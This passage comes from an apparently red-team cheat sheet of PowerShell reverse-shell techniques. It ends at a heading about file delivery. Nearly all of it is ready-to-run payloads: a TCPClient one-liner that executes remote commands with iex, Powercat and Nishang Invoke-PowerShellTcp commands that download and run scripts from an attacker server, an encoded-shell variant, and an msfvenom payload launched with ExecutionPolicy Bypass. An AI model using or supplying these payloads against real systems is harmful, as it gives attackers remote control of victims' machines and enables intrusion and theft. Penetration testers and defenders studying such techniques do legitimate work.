 or 

```powershell
$sm=(New-Object Net.Sockets.TCPClient('192.168.254.1',55555)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```
### Reverse Shell - Powercat

Link https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1

**Reverse shell**

```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.46.2/powercat.ps1');powercat -c 192.168.46.2 -p 443 -e cmd"
```

**Encoded  reverse shell**

```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.46.2/powercat.ps1');powercat -c 192.168.1.3 -p 443 -e cmd.exe -ge > encodedshell.ps1
	
cat encodedshell.ps1 | clip
	
powershell -E <PASTE>
```


### Reverse Shell  - Invoke-PowerShellTcp

**Invoke-PowerShellTcp.ps1**

Link https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

### Reverse Shell - MSFvenom

On Kali

`msfvenom -p windows/shell_reverse_tcp LHOST=<attacker-ip> LPORT=<port> -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1`

On Target

`powershell.exe -ExecutionPolicy Bypass -NoExit -File shell.ps1`# Delivery

Yes. I know. Delivery is not on Mitre Att&ck Framework. However, downloading and uploading files is an absolute necessity during a Red Team engagement.

## Download Files
### Download and Run in Memory
